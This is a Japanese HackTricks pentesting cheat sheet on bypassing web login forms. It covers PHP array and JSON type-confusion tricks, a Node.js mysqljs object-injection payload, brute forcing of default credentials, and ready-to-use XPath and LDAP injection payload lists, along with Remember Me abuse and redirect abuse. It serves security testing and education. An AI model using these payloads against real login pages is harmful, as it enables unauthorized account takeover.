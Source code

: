 # ログインバイパス

{{#include ../../banners/hacktricks-training.md}}

## **通常のログインをバイパスする**

ログインページを見つけた場合、ここでバイパスするためのいくつかのテクニックを試すことができます：

- ページ内の**コメント**を確認する（下にスクロールして右に？）
- **制限されたページに直接アクセスできるか**確認する
- **パラメータを送信しない**（何も送信しないか、1つだけ送信する）
- **PHPの比較エラーを確認する：** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
- **コンテンツタイプをjsonに変更**し、json値を送信する（bool trueを含む）
- POSTがサポートされていないという応答が返ってきた場合、**GETリクエストでボディにJSONを送信**することを試みる（`Content-Type: application/json`を使用）
- nodejsの潜在的なパースエラーを確認する（[**これ**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)を読む）： `password[password]=1`
- Nodejsはそのペイロードを次のようなクエリに変換します： ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` これにより、パスワードビットが常にtrueになります。
- JSONオブジェクトを送信できる場合、`"password":{"password": 1}`を送信してログインをバイパスできます。
- このログインをバイパスするには、**有効なユーザー名を知って送信する必要がある**ことを忘れないでください。
- `mysql.createConnection`を呼び出すときに**`"stringifyObjects":true`**オプションを追加すると、**`Object`がパラメータに渡されたときのすべての予期しない動作をブロック**できます。
- 認証情報を確認する：
- 使用されている技術/プラットフォームの[**デフォルトの認証情報**](../../generic-hacking/brute-force.md#default-credentials)
- **一般的な組み合わせ**（root、admin、password、技術の名前、これらのパスワードのいずれかを持つデフォルトユーザー）。
- **Cewl**を使用して辞書を作成し、**デフォルト**のユーザー名とパスワード（ある場合）を追加し、すべての単語を**ユーザー名とパスワード**として使用してブルートフォースを試みる
- **より大きな辞書を使用してブルートフォース**（**[**ブルートフォース**](../../generic-hacking/brute-force.md#http-post-form)**）

### SQLインジェクション認証バイパス

[ここで**SQLインジェクション**を介してログインをバイパスするためのいくつかのトリックを見つけることができます](../sql-injection/#authentication-bypass)。

次のページでは、SQLインジェクションを介してログインをバイパスするための**カスタムリスト**を見つけることができます：

{{#ref}}
sql-login-bypass.md
{{#endref}}

### NoSQLインジェクション認証バイパス

[ここで**NoSQLインジェクション**を介してログインをバイパスするためのいくつかのトリックを見つけることができます](../nosql-injection.md#basic-authentication-bypass)**。**

NoSQLインジェクションはパラメータの値を変更する必要があるため、手動でテストする必要があります。

### XPathインジェクション認証バイパス

[ここで**XPathインジェクション**を介してログインをバイパスするためのいくつかのトリックを見つけることができます](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAPインジェクション認証バイパス

[ここでは、**LDAPインジェクション**を介してログインをバイパスするためのいくつかのトリックを見つけることができます。](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Remember Me

ページに "**Remember Me**" 機能がある場合、その実装方法を確認し、**他のアカウントを乗っ取る**ために悪用できるかどうかを見てください。

### Redirects

ページは通常、ログイン後にユーザーをリダイレクトします。そのリダイレクトを変更して [**Open Redirect**](../open-redirect.md) を引き起こすことができるか確認してください。ユーザーを自分のウェブサイトにリダイレクトすると、情報（コード、クッキーなど）を盗むことができるかもしれません。

## Other Checks

- ログイン機能を悪用して **ユーザー名を列挙** できるか確認してください。
- パスワード/**sensitive** 情報 **フォーム** **入力** に **自動補完** が有効になっているか確認してください: `<input autocomplete="false">`

## Automatic Tools

- [HTLogin](https://github.com/akinerkisa/HTLogin)



{{#include ../../banners/hacktricks-training.md}}
